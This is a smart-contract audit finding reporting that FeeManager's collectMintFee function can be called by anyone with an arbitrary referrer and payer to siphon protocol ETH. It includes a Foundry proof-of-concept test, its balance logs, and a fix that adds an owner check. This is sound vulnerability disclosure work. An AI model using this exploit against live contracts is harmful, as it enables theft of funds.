 Narrow Sapphire Squirrel

medium

# Anyone can call `FeeManager::collectMintFee()` with any referrer address and steal funds

## Summary
The `collectMintFee` function in `FeeManager` collects fees for an `Edition`, with any address accepted as the referrer. 
Any account can invoke this function to obtain the referrer share for a specified amount, transferring the ETH or token directly from the protocol to the referrer.

## Vulnerability Detail
The `collectMintFee` function invokes `_splitProtocolFee`, which computes the fee for the provided referrer. This creates a route 
(transferring fees from the protocol to the referrer), splitting them using `mintReferrerShare = getMintReferrerShare(amount, referrer_)` and `uint256 collectionReferrerShare = getCollectionReferrerShare`.

## Proof of Concept:
* Assume the FeeManager has some ETH.
* Anyone can call the `collectMintFee` for an existing `Edition` with the attacker controlled parameter `_referrer`
* calculate the fee shares using `getMintReferrerShare` and `getCollectionReferrerShare` for the amount passed as parameter

Below is a test in foundry (add it at the end of the FeeManager.t.sol). In this scenario, `0xc0ffee` represents the owner of the Edition.
It demonstrates the splitting of ETH in the protocol between `0xc0ffee` and the attacker.

```javascript
    function test_syphonCollectMintFee() public {       
        address attacker = makeAddr("1337");       

        feeManager.createRoute(IEdition(address(mockEdition)), 1, new Target[](0), address(0));

        //Add 10 eth to the FeeManager
        vm.deal(address(feeManager), 10 ether);
       
        console.log("::ETH balance coffee before : ", address(0xc0ffee).balance);
        console.log("::ETH balance FeeManager before : ", address(feeManager).balance);
        console.log("::ETH balance attacker after : ", address(attacker).balance); 
                            
        vm.startPrank(attacker);        
        feeManager.collectMintFee{value: 0 ether}( IEdition(address(mockEdition)), 1, 500, address(feeManager), address(attacker));        
        vm.stopPrank();

        console.log("ETH balance FeeManager after : ", address(feeManager).balance);    
        console.log("ETH balance coffee after : ", address(0xc0ffee).balance);   
        console.log("ETH balance attacker after : ", address(attacker).balance); 
    }        
```    
    
Output
```javascript
Logs:  
  ::ETH balance coffee before :  0
  ::ETH balance FeeManager before :  10000000000000000000
  ::ETH balance attacker after :  0
  ETH balance FeeManager after :  4700000000000000000
  ETH balance coffee after :  5000000000000000000
  ETH balance attacker after :  150000000000000000
```      

## Impact
Anyone can steal fees from the protocol.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/d7f60952df22da00b772db5d3a8272a988546089/wallflower-contract-v2/src/fees/FeeManager.sol#L202

## Tool used

Manual Review

## Recommendation

* Implement a restriction ensuring only the owner of the edition can invoke collectMintFee.
* In the mock, the function creator requires the token parameter ID, though it's unused; it simply returns the owner of the Edition
* Additionally, consider that if there are more ETH or tokens in the protocol, the owner of the edition can still pass any amount as a parameter, potentially taking more funds than intended

```diff
 function collectMintFee(
        IEdition edition_,
        uint256 tokenId_,
        uint256 amount_,
        address payer_,
        address referrer_
    ) external payable {
++      require(msg.sender == edition_.creator(tokenId_), "Not owner");

        _collectMintFee(
            edition_, tokenId_, amount_, payer_, referrer_, getMintFee(edition_, tokenId_, amount_)
        );
    }
```    
    